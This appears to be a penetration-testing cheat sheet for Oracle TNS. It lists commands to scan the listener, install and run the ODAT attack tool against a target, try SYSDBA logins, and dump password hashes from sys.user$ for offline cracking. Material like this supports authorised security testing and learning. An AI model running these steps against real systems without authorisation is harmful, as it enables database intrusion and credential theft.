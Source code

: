 ### Oracle TNS

Nmap scan:
```
sudo nmap -p1521 -sV $rhost --open
```

Setup tools:
```
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien python3-pip -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
sudo submodule update
sudo apt install oracle-instantclient-basic oracle-instantclient-devel oracle-instantclient-sqlplus -y
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor pycryptodome passlib python-libnmap
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
```

Using odat:
```
./odat.py all -s $rhost
```

Login:
```
sqlplus username/password@$rhsots/XE;
```
If you come across the following error sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory, please execute the below:
```
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```

List all available tables in the current database:
```
select table_name from all_tables;
```

Show privileges of current user:
```
select * from user_role_privs;
```

Trying to connect to sysdba:
```
sqlplus username/password@$rhsots/XE as sysdba;
```

If you have administrative privileges:
```
select name, password from sys.user$;
```
Get passwords and try to crack them offline.
